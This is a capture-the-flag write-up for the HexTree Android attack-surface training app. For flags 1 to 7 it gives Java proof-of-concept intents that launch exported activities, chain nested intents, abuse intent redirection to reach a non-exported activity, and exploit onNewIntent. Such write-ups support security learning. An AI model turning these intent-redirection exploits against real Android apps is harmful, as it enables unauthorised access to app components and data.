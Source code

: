 
2025-06-09 10:57

Source: #android #CTF 
# Activity  

Take the apk in jadx and check the android manifest to find activities related to flag
click on the flag activity and we see a call to success() function 
our goal is to reach the success() function in all of these challenges
#### 1 - basic exported activity

note the package name and complete class name 

write this java code in your POC app
```java
public void onClick(View view) {  
    Intent expintent = new Intent();  
    expintent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag1Activity");  
    startActivity(expintent);  
}
```
#### 2 - Intent w extras

snippet from android manifest of flag2 
```xml
<intent-filter>
    <action android:name="io.hextree.action.GIVE_FLAG"/>
</intent-filter>
```

add the code below to the code we wrote for 1 - basic exported activity 
```java
expintent.setAction("io.hextree.action.GIVE_FLAG");
```
#### 3 - Intent w data URI

snippet from android manifest of flag 3 
```xml
<intent-filter>
    <action android:name="io.hextree.action.GIVE_FLAG"/>
    <data android:scheme="https"/>
</intent-filter>
```
on clicking flag4activity, it has an if loop that check if the data parsed has a particular URI, so we use that URI while creating the POC app

add the code below to the code we wrote for 1 - basic exported activity 
```java
expintent.setAction("io.hextree.action.GIVE_FLAG");
expintent.setData(Uri.parse("https://app.hextree.io/map/android"));
```

#### 4 - State machine 

when looking at the flag4activity code in jadx we see multiple actions nested in `if` loops - like so
```java
if (ordinal != 0) {
     if (ordinal != 1) {
        if (ordinal != 2) {
            if (ordinal == 3) {
                this.f.addTag(State.GET_FLAG);
                setCurrentState(State.INIT);
                success(this);
                Log.i("Flag4StateMachine", "solved");
                return;
            }
	        ...
        } else if ("GET_FLAG_ACTION".equals(action)) { ....
            Log.i("Flag4StateMachine", "Transitioned from BUILD to GET_FLAG");
            return;
        }
    } else if ("BUILD_ACTION".equals(action)) {
        ...
		... // more else if loops 
```

This hints that we might have to make multiple intents for every action 

```java
Intent exploitIntent3 = new Intent();  
exploitIntent3.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag4Activity");  
exploitIntent3.setAction("GET_FLAG_ACTION");  
startActivity(exploitIntent3);  
  
Intent exploitIntent2 = new Intent();  
exploitIntent2.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag4Activity");  
exploitIntent2.setAction("BUILD_ACTION");  
startActivity(exploitIntent2);  
  
Intent exploitIntent = new Intent();  
exploitIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag4Activity");  
exploitIntent.setAction("PREPARE_ACTION");  
startActivity(exploitIntent);
```
#### 5 - Intent in intent

jump through multiple intent to reach `success()`, below is the code snippet from `flag5activity` from `jadx`.
```java
public void onCreate(Bundle bundle) {
	    ...
        Intent intent = getIntent();
        Intent intent2 = (Intent) intent.getParcelableExtra("android.intent.extra.INTENT");
        if (intent2 == null || intent2.getIntExtra("return", -1) != 42) {
            return;
        }
        this.f.addTag(42);
        Intent intent3 = (Intent) intent2.getParcelableExtra("nextIntent");
        this.nextIntent = intent3;
        if (intent3 == null || intent3.getStringExtra("reason") == null) {
            return;
        }
        this.f.addTag("nextIntent")
        ... // similar patterned code ahead 
```

We will use `putExtra()` here to call intent in an intent
```java
public void onClick(View view) {  
    Intent nextIntent = new Intent();  
    nextIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");  
    nextIntent.putExtra("reason", "back");  
 
    Intent middleIntent = new Intent();  
    middleIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");  
    middleIntent.putExtra("return", 42);           
    middleIntent.putExtra("nextIntent", nextIntent);  
  
    Intent outerIntent = new Intent();  
    outerIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");  
    outerIntent.putExtra("android.intent.extra.INTENT", middleIntent);  
    startActivity(outerIntent);  
}
```

#### 6 - Not exported

in the android manifest we see this activity with `android:exported="false"`
on seeing the intent redirect vulnerability in flag5activity we can exploit that to redirect the `startactivity` call to `flag6activity` .

the flag6activity looks like this - 
```java
super.onCreate(bundle);
    this.f = new LogHelper(this);
    if ((getIntent().getFlags() & 1) != 0) {
    this.f.addTag("FLAG_GRANT_READ_URI_PERMISSION");
    success(this);
}
```
we're gonna have to use `setFlags()` while writing our intent 

```java
nextIntent.putExtra("reason", "next");  
nextIntent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);  
nextIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag6Activity");
```
Do exactly the same as in the flag5 to get to the `startactivity()` call, then add the above code to the respective intent.

#### 7 - Activity lifecycle tricks

on seeing the flag7activity code we see The [onNewIntent](https://developer.android.com/reference/android/app/Activity#onNewIntent%28android.content.Intent%29) method being used here means that when the activity is re-launched while at the top of the stack (so - the app can’t close) then `onNewIntent` will be called on the existing instance with the intent that was used to re-launch it.

```java
    public void onCreate(Bundle bundle) {
        ...
        if (action == null || !action.equals("OPEN")) {
            return;
        }
        this.f.addTag("OPEN");
    }
    
    public void onNewIntent(Intent intent) {
		...
        if (action == null || !action.equals("REOPEN")) {
            return;
        }
        this.f.addTag("REOPEN");
        success(this);
    }
```

So we can implement the following code, which needed a slight delay to ensure that there was enough time to log and wait for the second request:

```java
public void onClick(View v){  
    Intent intent = new Intent();  
    intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag7Activity");  
    intent.setAction("OPEN");  
    startActivity(intent);  
  
    v.postDelayed(() -> {  
        Intent intent2 = new Intent();  
        intent2.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag7Activity");  
        intent2.setAction("REOPEN");  
        intent2.addFlags(Intent.FLAG_ACTIVITY_SINGLE_TOP);  
        startActivity(intent2);  
    }, 100);  
}
```
# Activity Result 

Applications often use intents to reach out and trigger activities within other applications - often times there is a need for two-way communication to get the result of an activity being performed on another app.
#### 8 - Do you expect a result?




## References
https://www.youtube.com/watch?v=jnBmI1eD-og
https://itsfading.github.io/posts/HexTree-Attack-Surface-App-Solutions/
https://gaberoy.zip/posts/android-intent/android-intent/#flag-8---did-you-expect-a-result